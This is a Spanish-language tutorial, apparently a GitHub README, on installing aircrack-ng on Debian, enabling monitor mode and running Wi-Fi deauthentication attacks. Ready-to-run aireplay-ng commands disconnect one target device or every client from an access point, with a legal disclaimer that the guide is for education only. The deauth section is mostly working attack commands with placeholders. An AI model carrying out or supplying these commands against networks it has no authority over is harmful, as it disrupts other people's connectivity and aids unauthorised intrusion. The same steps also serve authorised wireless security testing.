 # Tutorial: Instalación de Airmon-ng y Ataque de Deauth en Debian

## Introducción

Este tutorial te guiará a través de la instalación de `airmon-ng` y otras herramientas relacionadas en una máquina Debian. También aprenderás cómo realizar un ataque de deautenticación (deauth) a un punto de acceso (AP) y un dispositivo específico.

## Advertencia Legal

El uso de estas herramientas para realizar un ataque de deauth en una red o dispositivo sin el consentimiento expreso del propietario es ilegal y puede tener graves consecuencias legales. Este tutorial se proporciona únicamente con fines educativos. El autor no se hace responsable del uso indebido de la información proporcionada.

## Requisitos Previos

- Una máquina con Debian o derivada.
- Acceso de superusuario (root) o permisos `sudo`.
- Una tarjeta de red Wi-Fi compatible con el modo monitor.

## Instalación de Airmon-ng y Herramientas Relacionadas

### Paso 1: Actualizar los Repositorios

Primero, actualiza los repositorios de tu sistema:

```bash
sudo apt update
```

### Paso 2: Instalar Aircrack-ng

`airmon-ng` es parte del paquete `aircrack-ng`, así que instalaremos el paquete completo:

```bash
sudo apt install aircrack-ng
```

### Paso 3: Verificar la Instalación

Verifica que `airmon-ng` y las herramientas relacionadas se hayan instalado correctamente:

```bash
airmon-ng --help
```

Si ves la información de ayuda, la instalación se ha realizado con éxito.

## Habilitar el Modo Monitor

### Paso 1: Identificar tu Interfaz Wi-Fi

Primero, identifica tu interfaz Wi-Fi:

```bash
sudo airmon-ng
```

Esto te dará una lista de las interfaces disponibles. Supongamos que la interfaz es `wlan0`.

### Paso 2: Habilitar el Modo Monitor

Habilita el modo monitor en tu interfaz Wi-Fi:

```bash
sudo airmon-ng start wlan0
```

Esto cambiará la interfaz a `wlan0mon` o similar.

### Paso 3: Verificar el Modo Monitor

Verifica que el modo monitor esté activado:

```bash
sudo iwconfig
```

## Ataque de Deautenticación

### Paso 1: Escanear las Redes Wi-Fi Disponibles

Escanea las redes Wi-Fi para identificar el punto de acceso (AP) y el dispositivo objetivo:

```bash
sudo airodump-ng wlan0mon
```

Esto mostrará una lista de APs y dispositivos conectados. Anota el BSSID del AP y el número de canal (CH) al que está conectado el dispositivo.

### Paso 2: Enfocar el Escaneo en un AP

Para enfocarte en un AP específico y sus dispositivos conectados, usa:

```bash
sudo airodump-ng --bssid <BSSID_DEL_AP> --channel <CANAL> wlan0mon
```

Mantén esta ventana abierta para ver los dispositivos conectados al AP.

### Paso 3: Realizar el Ataque de Deauth

Para desconectar un dispositivo específico del AP:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID_DEL_AP> -c <MAC_DEL_DISPOSITIVO> wlan0mon
```

- `--deauth 10`: Envía 10 paquetes de deauth.
- `-a <BSSID_DEL_AP>`: Especifica el BSSID del AP.
- `-c <MAC_DEL_DISPOSITIVO>`: Especifica la dirección MAC del dispositivo objetivo.

Para desconectar todos los dispositivos del AP:

```bash
sudo aireplay-ng --deauth 10 -a <BSSID_DEL_AP> wlan0mon
```

## Deshabilitar el Modo Monitor

Cuando hayas terminado, desactiva el modo monitor y vuelve al modo gestionado:

```bash
sudo airmon-ng stop wlan0mon
```

Esto devolverá tu interfaz Wi-Fi al modo normal.

## Conclusión

Has aprendido cómo instalar `airmon-ng` y realizar un ataque de deauth en un AP y un dispositivo específico en una máquina Debian. Recuerda siempre actuar dentro de los límites de la ley y usar este conocimiento de manera ética.
